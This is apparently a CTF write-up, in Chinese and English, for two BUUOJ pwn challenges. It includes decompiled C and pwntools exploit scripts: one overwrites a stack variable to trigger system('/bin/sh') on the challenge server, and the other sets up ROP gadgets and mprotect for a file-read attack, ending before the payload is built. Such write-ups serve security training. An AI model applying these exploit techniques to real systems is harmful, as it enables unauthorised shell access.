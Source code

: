 
## 0x0c ciscn_2019_n_8
### ans 

```c++
puts("What's your name?");
  __isoc99_scanf("%s", var, v4, v5);
  if ( *(_QWORD *)&var[13] )
  {
    if ( *(_QWORD *)&var[13] == 0x11LL )
      system("/bin/sh");
    else
      printf(
        "something wrong! val is %d",var[0],var[1],var[2],var[3],var[4], var[5], var[6], var[7], var[8],var[9], var[10], var[11],var[12],var[13],var[14]);
  }
  else
  {
    printf("%s, Welcome!\n", var);
    puts("Try do something~");
  }
```

输入的var是数组，var[13] == 0x11 时可以getshell

### exp
```python
from pwn import *
context.log_level = "debug"
# io = process('./ciscn_2019_n_8')
io = remote('node3.buuoj.cn','27094')
io.recvuntil("name?\n")
# payload = '\x11' * 53  #当时想自己手动二分法试试什么时候不报错，结果成功了
payload = p32(0x11) * 14
io.sendline(payload)
io.interactive()
```


## 0x0d not_the_same_3dsctf_2016
### ans orw 
同 0x10 get_started_3dsctf_2016  

ida中padding的长度错误，使用gdb + cyclic确定

### exp
```python
from pwn import *

# io = remote('node3.buuoj.cn', 27545)
io = process("./not_the_same_3dsctf_2016")
e = ELF("./not_the_same_3dsctf_2016")

pop_3_ret  = 0x0809e3e5
pop_2_ret  = 0x080483b9
bss_addr   = 0x80EC000 
flag_addr  = 0x80bc2a8
open_addr  = e.symbols['open']
read_addr  = e.symbols['read']
write_addr = e.symbols['write'] 
mprotect_addr = e.symbols['mprotect']
mpr_len    = 0x1000
mpr_prot   = 7  # rxw=7
```